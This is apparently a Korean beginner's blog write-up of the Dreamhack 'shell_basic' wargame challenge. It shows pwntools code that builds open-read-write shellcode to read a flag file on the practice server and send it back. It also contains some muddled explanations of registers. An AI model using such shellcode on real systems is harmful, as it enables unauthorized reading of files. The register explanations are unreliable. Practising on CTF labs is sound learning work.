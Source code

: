 ```yaml
---
layout: post
title: "shell_basic"
---
```


# 문제
![image](https://user-images.githubusercontent.com/86642180/159207987-6a67d083-012a-41a3-98c0-4c52e4dcf76c.png)

# 문제 파일
```
This XML file does not appear to have any style information associated with it. The document tree is shown below.
<Error>
<Code>AccessDenied</Code>
<RequestId>tx000000000000068fa8ac8-0062380560-22abac8d-sfo2a</RequestId>
<HostId>22abac8d-sfo2a-sfo</HostId>
</Error>
```
# 풀이 전 정리
해킹 관련 문제는 처음풀어본다 이건 알고리즘이랑 전혀 관련 없어보인다..  

<br>

📌 리눅스 커널  
리눅스 OS의 가장 핵심 영역. CPU에 명령을 내림  

<br>

📌 셸코드(shell code) : 시스템의 특정 명령을 실행하는 작은 사이즈의 프로그램  
주로 소프트웨어 취약점을 통한 공격(Exploitation)이후 실행 될 작은 규모의 포로그램(Payload)으로 사용  
어쨋든 리눅스 커널은 사용자랑 상호작용이 불가능하니까  
문제도 xshell로 접근하면 된다

<br>
execve, execveat : fork()로 생성한 함수를 콜해주는 함수  

<br>
구글링 해보니 execve로 시스템 콜을 리눅스에서 하지 못하면  
ORW(Open Read Write) 방식으로 진행하면 된다고 한다  
예전에 파이썬 처음 배울 때 텍스트 파일로 실습하던 느낌으로 진행하면 되나보다  

<br>
더 자료 찾아보고 알아보니 드림핵 문제는 리눅스를 기반으로 진행되므로  
윈도우가 아니라 리눅스에 진행해야 매끄럽게 잘 진행이 되는 것같다  


<br>

# 풀이
터미널에서 
```
su - root
apt-get update
apt-get install python2.7 python-pip python-dev git libssl-dev libffi-dev build-essential
pip install --upgrade pip
pip install --upgrade pwntools
```
그런데 계속 `Command 'pip' not found, but can be installed with:`  
에러가 나고 터미널에서  
`apt install python3-pip`를 대신하라 했다  
다른 코드를 실행하니 pwntools 설치 완료  

![image](https://user-images.githubusercontent.com/86642180/159222780-3eee6e74-4749-4971-b950-b8d57e01d6d2.png)

<br>
파이썬 사용할 것이니 python 입력  
![image](https://user-images.githubusercontent.com/86642180/159222981-c4a3622d-d8e8-48d6-bb97-2423786c4f87.png)
python3부터는 python이 아니라 python3를 입력해야 되나보다  

<br>
pwntools를 사용하기 위해 import
`from pwn import *`  

<br>
pwntools에서 remote는 remote("ip", port number)를 통해 연결해준다  
앞에 문제에서 나온 접속 정보를 remote 함수에 입력  
`p = remote("host3.dreamhack.games", 24346)`  
그런데 포트에 연결이 안된다고 한다 포트 번호가 바뀐건가 확인  

<br>

```
Host: host1.dreamhack.games
Port: 17599/tcp
```
접속정보가 저렇게 변경되었다  
`p = remote("host1.dreamhack.games", 17599)`  
![image](https://user-images.githubusercontent.com/86642180/159223868-fcea25a8-35db-46d6-897f-e84739e488bf.png)

<br>

`context.arch = 'amd64'`

pwntools는 셸코드를 생성하거나 코드를 어셈블, 디스어셈블 하는 기능이 있다  
그래서 직접적으로 셸코드를 작성하지 않아도 알아서 변환해준다!  
amd64는 x86-64 즉 64비트 환경에서 사용하는 것이므로 `amd64`를 context 아키텍쳐로 설정  

<br>

`r = "/home/shell_basic/flag_name_is_loooooong"`  
문제에서 제시한 flag가 있는 루트 설정  

<br>

이제부터는 셸코드를 작성해야 한다  
아직도 개념이 100% 잡힌건 아니지만 셸코드도  
파이썬으로 텍스트 파일 오픈 리드 라이트 하는거랑 똑같이 진행할 수 있다  

```
shellcode = ''
shellcode += shellcraft.open(r)
shellcode += shellcraft.read('rax', 'rsp', 0x100)
shellcode += shellcraft.write(1, 'rsp', 0x100)
```
먼저 셸코드를 담을 변수 `shellcode` 초기화  
`shellcraft`라는 함수를 사용하여 시스템콜인 execve나 orw 셸코드를 작성할 수 있다  
문제에서는 r에 있는 프로그램을 특정하는 것을 목표로 하니까  
r을 열어준 뒤 그에 해당하는 셸코드를 작성한다  

<br>
그리고 `read('rax', 'rsp', 0x100)`  
rax : Extended Accumulator Register  
사칙연산 명령어에서 자동으로 사용, 리턴 레지스터  
시스템콜의 실질적인 번호를 가리키는 레지스터  

<br>
![image](https://user-images.githubusercontent.com/86642180/159227906-05f0ea7e-eb00-4ae4-80cc-4700bc20d2df.png)
`rsp` : Extended Stack Pointer  
현재 스택 주소. 즉 스택 맨 윗쪽 주소. 스택에 있는 데이터의 주소를 지정. 계산, 데이터 전송에는 거의 사용되지 않는다  
프로그램이 구동되며 어떤 코드와 메모리를 로드할지 계속 할당해줘야하는데  
그 할당을 하는 것 중 하나 rsp인것 같다..  

<br>
그러니까 rsp가 해당하는 값을 rax에 넣어주는 방식으로 셸코드가 생성되어 시스템이 구동되는 것이다..  
0x100은 16진수로 256인데  
read는 256에 해당하는 rsp를 rax에 넣어주는 것을 의미하는 것같다  

<br>
`write(1, 'rsp', 0x100)`  

<br>

```
print(p.recv())
p.sendline(asm(shellcode))
print(p.recv())
```
그러고 출력을 하려는데  
에러가 뜬다  
일단 처음 `print(p.recv())`에서 `b'shellcode: TIME OUT\n'` 에러가 난다  

<br>

pwntool document에서 timeout 설정 이런것도 있어서  
처음에는 timeout 설정을 안해서 문제인가 했으나  
문제 자체가 서버에 접속 뒤 30초 안에 코드를 입력해야 되는 것이라  
계속 timeout 에러가 났다  

<br>

결과  
![image](https://user-images.githubusercontent.com/86642180/160386611-c11c879d-dc8d-42df-8b62-ba3e31290712.png)


<br><br>

# 참고자료 
어셈블리어와 시스템 동작 과정  
http://kocw-n.xcache.kinxcdn.com/data/document/2020/pusancatholic/kimdohyun0727/2.pdf  

<br>
셸코드 설명 + 어셈블리어  
https://masterccc.github.io/memo/shellcode/  

<br>
어셈블리어 설명  
https://yechoi.tistory.com/10  

<br>
pwntool과 어셈블리어  
https://docs.pwntools.com/en/stable/shellcraft/amd64.html  

<br>
사실 참고자료 읽어도 잘 모르겠다..
